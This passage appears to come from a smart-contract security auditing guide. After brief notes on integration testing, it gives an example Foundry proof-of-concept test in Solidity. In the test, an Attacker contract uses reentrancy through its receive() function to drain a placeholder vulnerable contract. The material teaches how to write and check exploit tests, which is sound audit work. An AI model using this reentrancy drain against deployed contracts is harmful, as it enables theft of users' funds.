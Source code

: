 4. **Integration Tests**
   - Test with actual mainnet forks
   - Test against real protocol integrations
   - Test with various ERC20 tokens

### Example Exploit PoC Structure

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/VulnerableContract.sol";

contract ExploitTest is Test {
    VulnerableContract target;
    Attacker attacker;

    function setUp() public {
        target = new VulnerableContract();
        attacker = new Attacker(address(target));

        // Fund target with 100 ETH
        vm.deal(address(target), 100 ether);
    }

    function testReentrancyExploit() public {
        // Attacker starts with 0 ETH
        assertEq(address(attacker).balance, 0);

        // Execute exploit
        attacker.exploit();

        // Attacker now has 100 ETH (drained from target)
        assertEq(address(attacker).balance, 100 ether);
        assertEq(address(target).balance, 0);
    }
}

contract Attacker {
    VulnerableContract target;

    constructor(address _target) {
        target = VulnerableContract(_target);
    }

    function exploit() external {
        // Describe the exploit step by step
        target.deposit{value: 1 ether}();
        target.withdraw(1 ether);
    }

    receive() external payable {
        // Reentrancy: withdraw again before state is updated
        if (address(target).balance >= 1 ether) {
            target.withdraw(1 ether);
        }
    }
}
```
